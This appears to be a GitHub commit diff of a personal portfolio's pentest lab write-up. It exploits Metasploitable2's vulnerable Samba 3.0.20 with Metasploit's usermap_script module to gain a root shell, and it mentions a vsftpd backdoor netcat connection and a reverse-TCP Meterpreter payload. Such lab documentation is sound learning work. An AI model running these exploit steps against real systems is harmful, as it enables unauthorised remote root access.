

Before and after one commit to engraham/Eric_Graham-Portfolio, a Markdown page: Pentest-Labs/metasploitable2_vsftpd-samba.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/Pentest-Labs/metasploitable2_vsftpd-samba.md
+++ b/Pentest-Labs/metasploitable2_vsftpd-samba.md
@@ -97,17 +97,38 @@ nc -v <target-ip> 6200
 
 2. **Using Metasploit:**
 
+* Metaploit Commands used:
 ```bash
-msfconsole
-(change me below. I used a slightly different method.)
-use exploit/multi/samba/usermap_script
-set RHOSTS <target-ip>
-set PAYLOAD linux/x86/meterpreter/reverse_tcp
-set LHOST <your-ip>
-run
+>msfconsole
+>use auxiliary/scanner/smb/smb
+>use 11
+>show options
+>set RHOSTS <target_ip>
+>run
+	(shows Samba 3.0.20-Debian)
+>searchsploit samba 3.0.20
+	 (shows 'Username map script' Command Execution)
+>grep samba search username map
+>use 3
+>show options
+>set RHOSTS <target_ip>
+>exploit
+>whoami
+>ls
 ```
+* Start Metaploit
 
-3. **Result:** Obtained a Meterpreter session with root privileges. (I did not use Meterpreter. Change this)
+
+3. Find an auxiliary scanner to find the Samba SMB version and set the RHOSTS to <target_ip>. Running the scan shows "Samba 3.0.20-Debian"
+
+4. In a new CMD, usging 'searchsploit' search for "samba 3.0.20" (I chose "'Username' map script' Command Execution" exploit).
+
+5. From the auxiliary(scanner/smb/smb_verion) enter "grep samba search username map". This shows "exploit/multi/samba/usermap_script" with an exploit rating of "excellent".
+
+6. Select "exploit/multi/samba/usermap_script" and show options and set RHOSTS to <target_ip>. Then run the exploit.
+
+7. **Result:** Obtained root privileges via a shell.
+
 
 ---
 
````
